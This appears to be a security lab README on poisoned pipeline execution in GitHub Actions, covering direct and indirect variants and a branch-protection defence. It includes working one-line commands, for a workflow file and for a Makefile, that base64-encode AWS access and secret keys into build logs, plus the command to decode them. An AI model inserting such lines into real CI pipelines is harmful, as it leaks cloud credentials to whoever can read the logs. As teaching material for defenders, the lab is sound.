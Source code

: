 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Understanding Direct PPE

Direct PPE (D-PPE): In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.

![i-ppe](img/d-ppe.jpg)

## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build` within `.github\workflows\dppe.yaml` 

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```

## Protect against Direct-PPE
1. Enable Branch Protection and enable `Require a pull request before merging` and `Require approvals` and `Do not allow bypassing the above settings`

## Understanding Indirect PPE

Indirect PPE (I-PPE): In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:
- If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
- If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
- If the CI build is defined in the CI system itself – instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:

- Makefile
- build.sh
- code tests etc..

Now, the scenario is - we cannot directly push into main branch, it will be protected, we have to find other ways to inject the malicious code.

![i-ppe](img/i-ppe.jpg)


## Execute Indirect-PPE 
1. Create new branch
1. Edit `Makefile` and add line below at end  and commit and sync changes
1. Compare & Open Pull Request

```
echo "accesskey: ${AWS_ACCESS_KEY_ID}  secretkey: ${AWS_SECRET_ACCESS_KEY}" | base64
```

